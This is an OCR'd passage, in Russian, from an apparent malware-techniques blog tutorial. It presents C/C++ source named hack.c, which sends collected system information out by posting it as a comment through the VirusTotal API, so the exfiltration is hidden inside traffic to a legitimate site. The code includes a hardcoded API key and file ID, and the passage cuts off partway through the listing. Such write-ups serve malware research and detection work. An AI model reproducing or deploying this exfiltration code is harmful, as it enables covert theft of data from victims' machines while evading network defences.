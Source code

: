 ```cpp
      printf("comment posted successfully.\n");
    } else {
      printf("failed to post comment. HTTP Status Code: %d\n", code);
    }
  } else {
    DWORD error = GetLastError();
    LPSTR buffer = NULL;
    FormatMessageA(FORMAT_MESSAGE_ALLOCATE_BUFFER | 
    FORMAT_MESSAGE_FROM_SYSTEM | FORMAT_MESSAGE_IGNORE_INSERTS,
                   NULL, error, 0, (LPSTR)&buffer, 0, NULL);
    printf("WTF? unknown error: %s\n", buffer);
    LocalFree(buffer);
  }

  WinHttpCloseHandle(hConnect);
  WinHttpCloseHandle(hRequest);
  WinHttpCloseHandle(hSession);

  printf("successfully send info via VT API :)\n");
  return 0;
}
```

Как видите, это просто пост-запрос, в моем случае ID файла = `379698a4f06f18cb3ad388145cf62f47a8da22852a08dd19b3ef48aaedffd3fa`.

Итак, полный исходный код выглядит так:

```cpp
/*
 * hack.c
 * sending systeminfo via legit URL. VirusTotal API
 * author @cocomelonc
 * https://cocomelonc.github.io/malware/2024/06/25/malware-trick-41.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <winhttp.h>
#include <iphlpapi.h>

#define VT_API_KEY "7e7778f8c29bc4b171512caa6cc81af63ed96832f53e7e35fb706dd320ab8c42"
#define FILE_ID "379698a4f06f18cb3ad388145cf62f47a8da22852a08dd19b3ef48aaedffd3fa"

// send data to VirusTotal using winhttp
int sendToVT(const char* comment) {
  HINTERNET hSession = NULL;
  HINTERNET hConnect = NULL;

  hSession = WinHttpOpen(L"UserAgent", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
  if (hSession == NULL) {
    fprintf(stderr, "WinHttpOpen. Error: %d has occurred.\n", GetLastError());
    return 1;
  }

  hConnect = WinHttpConnect(hSession, L"www.virustotal.com", INTERNET_DEFAULT_HTTPS_PORT, 0);
  if (hConnect == NULL) {
    fprintf(stderr, "WinHttpConnect. error: %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hSession);
  }

```